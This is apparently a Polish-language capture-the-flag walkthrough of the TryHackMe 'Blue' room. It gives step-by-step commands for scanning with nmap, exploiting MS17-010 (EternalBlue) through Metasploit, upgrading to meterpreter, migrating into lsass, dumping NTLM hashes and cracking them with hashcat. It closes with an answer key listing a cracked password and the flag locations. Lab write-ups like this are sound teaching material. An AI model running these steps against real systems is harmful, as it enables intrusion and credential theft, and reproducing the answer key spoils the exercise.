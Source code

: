 1. Na początku musimy klasycznie połączyć się z VPN za pomocą OpenVPN.
Wchodzimy na nasz [profil](https://tryhackme.com/access) pobieramy plik do połączanienia wchodzimy w "/Downloads" i wpisujemy w nowym
terminalu:

``` $ openvpn <Nazwa>.ovpn ```


2. Po tym otwieramy zadanie nr. 1 i odpalamy instancję ( Deploy ).

3. Po tym wszystkim możemy powoli zaczynać. Pierwsze co robimy to skanujemy maszyne:

``` $ nmap -Pn <Adress Ip> ```

Skanowanie pokazuje nam usługi i porty, na których dzialają. Spróbujmy dowiedzieć się o dystrybucji.

```$ nmap -A -T 5 <Adress Ip> -vv```

Widzimy, że maszyna jest postawiona na Windows 7.

4. Teraz musimy się dowiedzieć na co jest podatna maszyna ( ms??-??? ). Więc wpisujemy:

```$ nmap --script vuln <Adress Ip> -vv```

I widzimy smb-vuln-ms17-010 ( [ms17-010](https://www.exploit-db.com/exploits/42315) ).

5. Teraz spróbujmy uzyskać dostęp na maszynie.

6. Odpalamy [Metasploit](https://www.metasploit.com/):

```$ msfconsole```

Szukamy exploit'a na tę podatność w msf:

```$ search ms17–010```

Pokazuje nam się lista dostępnych ataków. My z racji, że znamy dystrybucję wybieramy tego na Windows 7.

``` $ use 2 ``` (windows/smb/ms17_010_eternalblue)

7. Musimy się dowiedzieć jakie opcje musimy uzupełnić do ataku:

```$ show options```

Widzimy RHOST, więc go uzupełniamy:

```$ set RHOSTS <Adress Ip>```

I uruchamiamy skrypt:

```$ run```

Powinniśmy uzyskać dostęp do konsoli!

W razie czego upewnij się że exploit dziąła poprawnie. Kliknij enter i powinneś widzieć shella DOS.
Spróbuj wejść w tło shell'a (CTRL + Z). Jeżeli to się nie uda może być konieczne ponowne uruchomienie maszyny (deploy), lecz przed tym spróbuj znów uruchomić skrypt i zobaczyć czy działa.

Nacisnij enter.

8. Jeżeli jeszcze nie wszedłeś do tła shella (CTRL + Z). Dowiedz się w internecie jak
przekonwertować shell'a na meterpretera w metasploit. Jaka jest nazwa modułu post, którego użyjemy.
( Dokładna ścieżka, podobna do nazwy użytego exploita )

9. Wrócmy najpierw do metasploita:

```$ background```

Zweryfikujmy czy sesja nadal istnieje:

```$ session```

Powinna nam się pokazać informacja o sesji jej typie itp.

10. Spróbujmy zmienić shella na meterpretera:

```$ use multi/manage/shell_to_meterpreter```

Uzupełnij wszystkie brakujące opcje aby przechwycić shell'a:

```
$ set LPORT 1234
$ set SESSION 1
```

Uruchom:

```$ run```

Jeżeli to nie działa spróbuj znów zrobić shell'a.

11. Zobaczmy istniejące sesje:

```$ session```

Powinniśmy zobaczyć drugą sesje, która ma w typie meterpreter.

Spróbujmy do niej się podłączyć:

```$ sessions 2```

Powinniśmy widzieć konsole meterpretera.

12. Sprawdźmy czy eskalowaliśmy do NT AUTHORITY\SYSTEM. Uruchom te polecenie w tym celu:

```$ getsystem```

Możemy swobodnie zmieniać powłoki z shell do meterpretera.

Sprawdźmy kim jesteśmy:

```
$ shell
$ whoami
```

Wróćmy do meterpretera ( CTRL + Z ).

13. To że jesteśmy systemem nie oznacza, że nasz proces też nim jest. Sprawdźmy liste działająch procesów:

```$ ps```

I zapamiętajmy id procesu (PID).

14. Zmigrujmy sobie proces lsass.exe. Mając meterpretera wpiszmy:

```$ migrate 708```

15. Zrzućmy (dump) hasła nie podstawowych użytkowników do późniejszego ich złamania.

W naszym podwyższonym shell'u (meterpreter) uruchomy polecenie:

```$ hashdump```

Spowoduje to dumpowanie wszystkich hashy haseł na komputerze jeżeli mamy do tego odpowiednie uprawnienia.

Który użytkownik nie jest defaultowy?

16. Skopiuj hashe do pliku do złamania. ( to hashe [NTLM](https://en.wikipedia.org/wiki/NT_LAN_Manager)  wklej je tak jak widzisz w konsoli ).

Zorganizujmy hash do łamania. (user:hash <-- ostatni "zlepek liter" w lini po : i przed ::: )

np.
```Administrator:31d6cfe0d16(...)```

17. Ja użyje hashcat'a do złamania hashy.

``` $ hashcat -a 0 -m 1000 <NazwaPlikuZHashami>.txt <SłownikDoŁamania np. rockyou.txt>.txt --force --username --show ```

Po chwili powinniśmy uzyskać hasło do Jon'a (alqfna22)

18. Teraz poszukajmy flag:

1) Pierwsza znajduje się w lokacji C:\flag1.txt

2) Następna w C:\Documents and Settings\Jon\Documents\flag3.txt

3) A ostatnia w C:\Windows\System32\config\flag2.txt

Każdą flagę można pokazać za pomocą ```type```
np. ``` type flag1.txt ```

19. To powinno być na tyle. Powodzenia!

// Uzupełnienie rubryk.

Zadanie 1.

2) 3

3) ms17-010

Zadanie 2.

2) exploit/windows/smb/ms17_010_eternalblue

3) RHOSTS

Zadanie 3.

1) post/multi/manage/shell_to_meterpreter

2) SESSION

Zadanie 4.

1) Jon

2) alqfna22

Zadanie 5.

1) Wpisz flage numer 1

2) Wpisz flage numer 2

3) Wpisz flage numer 3 

